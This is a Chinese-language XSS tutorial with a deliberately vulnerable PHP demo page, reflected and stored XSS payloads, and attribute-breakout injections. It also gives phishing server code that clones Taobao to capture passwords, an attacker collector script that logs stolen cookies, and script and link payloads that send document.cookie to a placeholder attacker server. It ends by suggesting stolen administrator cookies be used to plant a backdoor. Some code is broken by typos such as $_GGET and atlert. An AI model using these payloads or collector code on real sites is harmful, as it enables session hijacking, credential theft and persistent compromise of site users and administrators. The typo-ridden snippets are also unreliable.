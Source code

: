 # XSS基本原理

## 一、XSS基础演示代码

```php
<?php
// 从浏览器接受一个URL地址参数，名为content
if(isset($_GGET['content'])){
    $content = $_GET['content'];
    echo "你输入的内容：$content";
}
else{
    echo "请输入URL地址参数content";
}
?>
```

- 在地址栏输入：`http://localhost/security/test.php?content=helloworld`可以正常输出：`你输入的内容：helloworld`

- 在地址栏输入`http://localhost/security/test.php?content=<script>alert(1)</script>`时，前端执行JavaScript代码，弹出对话框

  ```
  或者：
  http://localhost/security/test.php?content=<button onclick=alert("你被攻击了")>点我</button>
  以及更复杂一些的：
  http://localhost/security/test.php?content=<script>test() {alert("你被攻击了")}</script><button onclick="test()"点我</button>
  ```

- 构造打开页面就执行的payload：

  ```
  http://localhost/security/test.php?content=<script>var result=0;for (var i=0;i<=100;i++) {result += i;} atlert(result);</script>
  需要注意的是，加号在URL中会被替换为空格，在构造payload时，可以使用%2B代替
  ```

## 二、XSS概述

- XSS指跨站攻击脚本，XSS漏洞发生在前端，攻击的是浏览器的解析引擎，XSS就是让攻击者的JavaScript代码在受害则会的浏览器上执行

- XSS的核心要求是构造出能让前端只想的JavaScript代码，所以要对JavaScript熟练

- XSS也算是注入类的漏洞，JavaScript的代码注入，所以XSS漏洞更主要是攻击系统的用户，而不是系统本身

- XSS是一种钓鱼攻击，攻击目标是不确定的。但是，如果针对Cookie类的攻击，隐含一个目标：网站管理员 

- JavaScript运行条件：

  - 代码位于`<script></script>`标签中

    ```
    <script>alert("你被攻击了")</script>
    ```

  - 代码位于onclick事件中，此类事件带有onerror,onload,onfocus,onblur,onchange,onmouseover,ondoubleclick等

    ```
    <img src="http://xxx.jpg" onmouseover="alert("/你被攻击了/")"
    ```

  - 代码位于超链接的href属性中，或者其他类似属性中

    ```
    <a href="javascript:alert(/你被攻击了/)">点击有奖金</a>
    ```

- XSS攻击流程

  ![202402271305096.png](https://s2.loli.net/2024/02/27/FBX4lT7O2QDUGYd.png)
  
- 基于XSS配置钓鱼网站，自行构造一个与淘宝页面一样的网页，用户一旦输入用户密码，将直接发送账密到攻击者的后台服务器，然后后台将账密保存后，再跳转到真实的淘宝网站，让用户完成后续工作，服务器代码类似于：

  ```
  //获取用户账密
  $username = $_POST['username'];
  $password = $_POST['password'];
  
  // 将数据保存起来，然后跳转到真实网站
  
  echo "<script>document.write('你的账号密码不正确，请重新登录');setTimeout(function()) {location.href='https://www.taobao.com';},2000;)</script>";
  ```

## 三、XSS类型

- 反射型：构造好一个URL|XSS的payload，发给受害者，受害者点解一链接后会在受害者的浏览器上执行恶意代码。反射型XSS一次性的，比较容易被发现。通常恶意链接会被修改成一段短链接，或钓鱼图片的形式。
- 存储型：又叫永久型XSS，常见于留言板。因为存储型XSS的页面会将用户输入的内容存到数据库中，所以当其他人每访问一次的时候服务器都会从数据库将攻击者输入的内容掉渠道前端浏览器解析，因此每一次访问就相当于一次XSS攻击
- DOM型：不与服务器交互，本质还是一种反射型XSS，主要利用js使用DOM对欠怼html操作时产生的漏洞。DOM型XSS的难点在于它通过阅读JavaScript来确定输出的位置才好构建输入的payload，DOM型XSS可以通过开发者工具观测js变化

## 四、XSS渗透测试步骤

- XSS的原理就是开发者没有对输入内容进行过滤，导致攻击者通过将精心构造的前端代码输入后与原有的前端代码产生混淆，形成新的页面语句，并且新的页面语句可能被浏览器解析并输出
  - 输入：指攻击者对服务器王爷输入恶意代码
  - 输出：指浏览器接收到代码后能够解析并输出到前端
- XSS渗透测试步骤
  - 找到输入点，输入任意字符串，查看输出位置
  - 打开网页源代码，在源代码中查看输出的位置（有可能输入和输出不在同一页面）
  - 查看输出位置的内容跟与输入内容之间的关系，构建闭合和拼接脚本
  - 利用<script>或者onclick或alert(1)进行测试，确认是否存在XSS注入点
  - 开始利用该注入点进行各种复杂操作以实现攻击目的

- 将php代码优化为以下，让用户输入内容在一个文本框中输出：

    ```php
    <?php
    // 从浏览器接受一个URL地址参数，名为content
    if(isset($_GGET['content'])){
        $content = $_GET['content'];
        echo "你输入的内容是：<input type='text' id='content' value='" . $content . "'>";
    }
    else{
        echo "请输入URL地址参数content";
    }
    ?>
    ```
    
    - 此时可以通过拼接引号构造闭合来进行注入：
    
      ```
      http://localhost/security/test.php?value=hello' onclick=alert(1)'
      可以使用注释(#、//、/**/、<!--)将后面的内容截断：
      http://localhost/security/test.php?value=hello' onclick=alert(1) /> <!--
      ```

## 五、XSS获取Cookie

### 1.创建XSSdata数据库

![image-20240227160126122](https://s2.loli.net/2024/02/27/vDr4hbUgduZjQNO.png)

### 2.攻击者服务器代码

```php
// 以下代码同样具有sql注入漏洞，可以利用报错注入的方式进行注入

<?php
    
$ipaddr = $_SERVER['REMOTE_ADDR'];
$url = $_GET['url'];
$cookie = $_GET['cookie'];
    
$conn = new mysqli('127.0.0.1','root','123456','learn') or die("数据库连接不成功");
$conn->set_charset('utf8');
$sql = "insert into xssdata(ipaddr, url, cookie, createtime) values('$ipaddr','$url','$cookie',now())";
$conn->query($sql);

// 执行完上述收集过程后返回上一级：
// echo "<script>history.back();</script>";
// 执行完上述收集过程后跳转到其他网站：
// echo "<script>location.href='http://www.baidu.com/'</script>";

?>
```

### 3.在页面中注入代码

```
以下内容要注意在注入时把+号和&号替换为%2B和%26

使用script标签,将以下代码注入到页面后，每当有用户访问该留言或帖子，攻击者服务器就能收集到cookie信息：
<script>
	new Image().src = "http://攻击者服务器地址/xssrecv.php?url=" + location.href + "&cookie=" + document.cookie;
</script>


如果script被过滤，可以如下注入，但需要用户点击图片攻击者服务器才能收集到cookie信息：
<a href=\'javascript:location.href="http://攻击者服务器地址/xssrecv.php?url="%2Blocation.href%2B"%26cookie="%2Bdocument.cookie\'><img src="http://攻击者服务器地址/image.gif"/>  </a>
```

- 获取cookie后，可以利用该cookie伪装用户登录
- 当管理员访问页面时也会被收集cookie，可以利用管理员身份快速给自己留下后门
